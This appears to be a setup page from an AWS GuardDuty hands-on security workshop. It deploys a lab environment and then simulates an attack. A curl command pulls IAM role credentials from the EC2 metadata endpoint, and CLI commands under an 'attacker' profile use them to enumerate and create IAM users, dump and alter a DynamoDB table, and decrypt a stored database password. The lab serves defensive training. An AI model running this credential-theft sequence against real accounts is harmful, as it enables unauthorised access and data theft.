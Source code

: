 # Environment Setup


> All of the links assume you are using the **ap-southeast-2 (Sydney)** region.
## Deploy the environment

*  Navigate to the [Event Engine dashboard](https://dashboard.eventengine.run)
*  Enter your **team hash** code. 
*  Login to the AWS Console
*  Click this link [here](https://console.aws.amazon.com/cloudformation/home?region=ap-southeast-1#/stacks/new?stackName=GuardDuty-Hands-On&templateURL=https://s3-us-west-2.amazonaws.com/sa-security-specialist-workshops-us-west-2/guardduty-hands-on/guardduty-cfn-template.yml) to setup the GuardDuty environment
*  Enter your email address to recieve the notifications
*  Click the **Deploy to AWS** button above.  This will automatically take you to the console to run the template.
*  Click **Next** on the **Specify Template**, **Specify Details**, and **Options** sections.
*  Finally, acknowledge that the template will create IAM roles under **Capabilities** and click **Create**.

This will bring you back to the CloudFormation console. You can refresh the page to see the stack starting to create. Before moving on, make sure the stack is in a **CREATE_COMPLETE**.

The initial findings will begin to show up in GuardDuty 10 minutes after the CloudFormation stack creation completes. 
###
**![#f03c15](https://placehold.it/15/f03c15/000000?text=+) Note: Please ensure you confirm the subscription you received in your inbox so you can receive notifications as the lab progresses**

### What is created?

The CloudFormation template will create the following resources:

  * Three [Amazon EC2](https://aws.amazon.com/ec2/) Instances (and supporting network infrastructure)
    * Two Instances that contain the name “*Compromised Instance*”
    * One instance that contains the name “*Malicious Instance*”
  * [AWS IAM Role](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html) For EC2 which will have permissions to SSM Parameter Store and DynamoDB
  * One [Amazon SNS Topic](https://docs.aws.amazon.com/sns/latest/dg/GettingStarted.html) so you will be able to receive notifications
  * Three [AWS CloudWatch Event](https://docs.aws.amazon.com/AmazonCloudWatch/latest/events/WhatIsCloudWatchEvents.html) rules for triggering the appropriate notification or remediation
  * Two [AWS Lambda](https://aws.amazon.com/lambda/) functions that will be used for remediating findings and will have permissions to modify Security Groups and revoke active IAM Role sessions (on only the IAM Role associated with this scenario)
  * [AWS Systems Manager Parameter Store](https://docs.aws.amazon.com/systems-manager/latest/userguide/systems-manager-paramstore.html) value for storing a fake database password.

> Make sure the CloudFormation stack is in a **CREATE_COMPLETE** status before moving on.

> **Make sure you confirm the subscription you recieved in your inbox**

### Generate a finding manually

All of the simulated attacks are automated in the CloudFormation template except for one; which requires you to take some manual steps.  To produce the final finding, you will need to copy the IAM temporary security credentials from the EC2 instance and make API calls from your laptop (the calls need to come from outside the AWS network). 

#### Retrieve the IAM temporary security credentials using AWS Systems Manager

To simulate this last and final attack you will need to retrieve the IAM temporary security credentials generated by the IAM Role for EC2. You can either SSH directly to the instance and query the metadata or follow the steps below to use [AWS Systems Manager Session Manager](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html) (an SSM agent was automatically started on the instance at launch). 

1.  Go to [Managed Instances](https://ap-southeast-1.console.aws.amazon.com/systems-manager/managed-instances?region=ap-southeast-1) within the **AWS Systems Manager** console (ap-southeast-1).
    
    > You should see an instance named **GuardDuty-Example: Compromised Instance: Scenario 3** with a ping status of **Online**.

2.  To see the keys currently active on the instance, click on **Session Manager** on the left navigation and then click **Start Session**.
3.  To see the credentials currently active on the instance, click on the radio button next to **Compromised Instance: Scenario 3** and click **Start Session**.
4.  Run the following command in the shell:

    ```
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised
    ```

5. Make note of the **AccessKeyID**, **SecretAccessKey**, and **Token**.

**Lets use the keys and run some queries**

The following commands will need to be run from outside the AWS environment for the trigger to take effect.
Please ensure that you have the AWSCLI installed, if not please follow the documentation below to install it
https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-install.html

Once the AWSCLI is installed, replace <access_key>, <secret_key> and <session_token> with the values you captured from Session Manager and run the following commands

     
     aws configure set profile.attacker.region ap-southeast-1
     aws configure set profile.attacker.aws_access_key_id <access_key> 
     aws configure set profile.attacker.aws_secret_access_key <secret_key> 
     aws configure set profile.attacker.aws_session_token <session_token>
     

**Do you have any IAM permissions:**


```
aws iam list-users --profile attacker

aws iam create-user --user-name Chuck --profile attacker
```

**What about DynamoDB?**
```
aws dynamodb list-tables --profile attacker

aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile attacker
```

**Can you query the data?**
```
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile attacker

aws dynamodb put-item --table-name GuardDuty-Example-Customer-DB --item '{"name":{"S":"Joshua Tree"},"state":{"S":"Michigan"},"website":{"S":"https://www.nps.gov/yell/index.htm"}}' --profile attacker

aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile attacker

aws dynamodb list-tables --profile attacker
```

**Do you have access to Systems Manager Parameter Store?**
```
aws ssm describe-parameters --profile attacker

aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile attacker

aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile attacker

```

## Proceed to Scenario 1:

[Scenario 1](https://github.com/securityroadshow/amazon-guardduty-hands-on/blob/master/docs/scenario1/index.md)
